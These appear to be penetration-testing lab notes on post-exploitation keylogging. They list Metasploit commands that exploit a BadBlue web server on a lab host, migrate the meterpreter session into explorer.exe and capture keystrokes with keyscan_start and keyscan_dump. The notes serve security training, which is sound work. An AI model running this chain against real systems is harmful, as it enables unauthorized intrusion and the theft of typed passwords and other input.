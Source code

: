 #### Keylogging
Keyloggin is the process of recording or capturing the keystroke entered on a target system
- This technique is not limited to post exploitation,there are plenty of programs and USB devices that can be used to capture and transmit the keystrokes entered on a system
- Meterpreter on a windows system provides us with the ability to caputure the keystroke entered on a target system and download them back to local system.
#### Exploit
- service postgresql start
- msfconsole
- workspace -a keystroke
- nmap -sS -sV demo.ine.local
- search badblue [ as badblue is running]
- use exploit/windows/http/badblue_passthru
- set everything requires
- set target BadBlue\ EE\ 2.7\ Universal
- run 
- this will give meterpreter session
- pgrep explorer
- migrate 2312 [ migrating to explorer process ]
- keyscan_start [this will start scan the key stroke]
- keyscan_dump [this will dump the key stroke ]
  
